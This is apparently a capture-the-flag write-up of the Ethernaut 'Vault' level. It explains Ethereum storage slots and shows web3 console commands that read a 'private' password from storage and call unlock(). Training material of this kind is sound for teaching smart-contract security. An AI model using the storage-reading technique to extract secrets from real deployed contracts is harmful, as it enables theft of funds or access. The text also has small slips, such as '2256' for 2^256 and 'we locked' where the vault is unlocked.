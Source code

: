 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel8.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

Challange's message.

>Unlock the vault to pass the level!

We have an contract which has type of bool variable called **locked** and type of **bytes** variable named **_password_** that defined in constructor(). What is more, there is **unlock()** function which checks _password we entered. If we entered correct password, unlocked will be **false** so we will beat this level.

## Smart Contract's Storage

Each smart contract running in the Ethereum Virtual Machine (EVM) maintains state in its own permanent storage. This storage can be thought of as a very large array, initially full of zeros. Each value in the array is 32-bytes wide, and there are 2256 such values. A smart contract can read from or write to a value at any location. That’s the extent of the storage interface.

<p align="center"><img  height="200" src="https://programtheblockchain.com/storage/storage.png"></p>

For example, we have a basic contract called **StorageTest** which helps us to understand how smart contract's storage works.


```solidity
contract StorageTest {
    uint256 a;
    bytes32 b;
}
```

In the above code:
+ ```a``` is stored at **slot 0**. 
+ ```b``` is stored at **slot 1**.

<p align="center"><img height="300" src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Vault/img/storage.png"></p>

More about  [Smart Contract's Storage](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/)

## Accessing Private Variabes In Contract's Storage

In solidity, unlike the general idea that someone can't access any private variable from external calls, we can access private variables from contract's storage because of the **_contract's storage open to external calls_**. In this senario, some libraries help us like **_web3_** to attain storage of contracts in blockchain. More about [Accessing Contract's Storage](https://medium.com/@dariusdev/how-to-read-ethereum-contract-storage-44252c8af925)

When you access storage of a contract with web3 library, you should use like this ```web.eth.getStorageAt(contract address,slot index)``` . More about [getStorageAt()](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#getstorageat)

# Subverting

Check situation of locked variable.

```shell
await contract.locked()
true
```
Access **password** from our target contract's storage and appoint to pass variable.

```shell
var pass = await web3.eth.getStorageAt(contract.address,1,console.log)
```
The pass variable is in hex type. Let's convert it to Utf8 which is readable format.
```shell
await web3.utils.hexToUtf8(pass)
'A very strong secret password :)'
```
Call unlock function and enter pass as password.
```shell
await contract.unlock(pass)
```
Check situation of locked variable again. And, we locked the vault!
```shell
await contract.locked()
false
```

**_by wasny0ps_**
